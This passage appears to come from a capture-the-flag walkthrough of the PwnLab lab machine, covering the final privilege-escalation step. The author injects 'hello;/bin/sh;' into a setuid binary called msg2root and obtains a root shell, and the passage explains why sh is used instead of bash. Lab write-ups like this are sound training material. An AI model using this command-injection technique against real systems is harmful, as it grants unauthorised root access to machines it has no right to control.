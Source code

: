 ```bash
...
```
Here we can see the binary is taking user input when ran and echoing it into a file called messages.txt in the root folder. This time it is using a static path for echo, so the previous technique won't work. But I should be able to inject into the command and still get some execution.

### 10. Escalate to root
I can inject into the root message, making a call to /bin/sh to get a shell. It needs to be sh as bash will drop the privileges.
```bash
mike@pwnlab:/home/mike$ ./msg2root
./msg2root
Message for root: hello;/bin/sh;
hello;/bin/sh;
hello
# whoami
root
```